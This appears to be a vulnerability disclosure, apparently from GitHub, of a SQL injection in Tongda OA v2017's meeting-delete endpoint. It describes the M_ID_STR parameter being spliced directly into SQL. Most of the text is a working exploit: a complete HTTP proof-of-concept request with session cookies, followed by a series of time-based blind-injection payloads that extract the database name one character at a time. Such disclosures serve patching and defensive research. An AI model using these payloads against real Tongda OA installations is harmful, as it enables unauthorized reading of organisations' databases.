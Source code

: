 SQL injection vulnerability exists in Tongda OA

version:v2017

Route:/general/meeting/manage/delete.php
There is an injected parameter: $M_ID_STR
The code here is very concise. When $M_ID_STR is not empty, the parameters are directly spliced ​​into the SQL statement. Since the parentheses are closed here, there is a bypass.
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/b3c07da4-445e-4120-b78b-1633d3f62d91)
There is a bypass situation in Tongda Global. Please see the payload below for the bypass method.
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/a0a264e6-f61c-43bd-ae7b-65ad81764192)
POC
```
GET /general/meeting/manage/delete.php?M_ID_STR=1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B) and (1)=(1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: USER_NAME_COOKIE=admin; SID_1=c8acd360; PHPSESSID=nirn1murprsta177fjc9e4egk1; OA_USER_ID=admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
2.Payload
We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B) and (1)=(1
```
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/c4e28f3f-23cc-490a-b80b-d9932d7fdafe)
Intercept the second digit of the database through blind injection, and determine the second digit as the letter d through the delay time
```
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B) and (1)=(1
```
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/963eb498-193e-4a94-b76e-79f6e9681518)
The third digit is the character _
```
1)%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B) and (1)=(1
```
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/c187908f-2a15-4b2f-ad2c-c478a291530c)
The fourth digit is the character o
```1)%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B) and (1)=(1```
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/0df8b11f-642f-480c-8a57-4c8a45c17da1)
The fifth digit is the character a
```1)%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B) and (1)=(1```
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/306af333-8465-43e9-8a3f-10f165418d1a)
Then through blind injection, you can determine that the database name is: td_oa

